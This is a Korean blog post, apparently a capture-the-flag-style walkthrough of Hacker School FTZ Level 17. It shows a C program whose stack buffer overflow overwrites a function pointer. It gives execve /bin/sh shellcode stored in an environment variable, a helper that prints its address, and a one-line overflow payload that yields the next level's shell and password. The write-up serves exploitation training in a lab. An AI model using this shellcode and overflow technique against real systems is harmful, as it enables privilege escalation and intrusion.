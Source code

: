 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 17"
description: "Do you know how to call the function (2)?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level17/1.jpg" | relative_url }}' alt='relative'>  

## 1) level17/king poetic 입력해 로그인  

``` c
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

<img data-action="zoom" src='{{ "assets/ftz/level17/2.png" | relative_url }}' alt='relative'>  

소스코드를 보면 앞선 16번 문제처럼 풀되 shell 함수의 주소 대신 shellcode가 저장된 주소를 call 함수에 대입하면 될 것으로 예상됩니다.  

<img data-action="zoom" src='{{ "assets/ftz/level17/3.png" | relative_url }}' alt='relative'>  

스택의 구조도 16번 문제와 비슷합니다.  

## 2) 환경변수에 shellcode 저장하고 shellcode가 저장된 환경변수의 주소 얻기  

``` bash
export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

cd tmp

echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c

gcc -o getenv getenv.c

./getenv
```

<img data-action="zoom" src='{{ "assets/ftz/level17/4.png" | relative_url }}' alt='relative'>  

## 3) bof 일으키기  

``` bash
(python -c 'print "A"*40+"\x8d\xfc\xff\xbf"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level17/5.png" | relative_url }}' alt='relative'>  

getenv 프로그램을 실행시켜 얻은 주소로 bof 공격을 수행하니 level18 권한으로 shell을 실행시킬 수 있었고 level18의 비밀번호를 획득할 수 있었습니다.  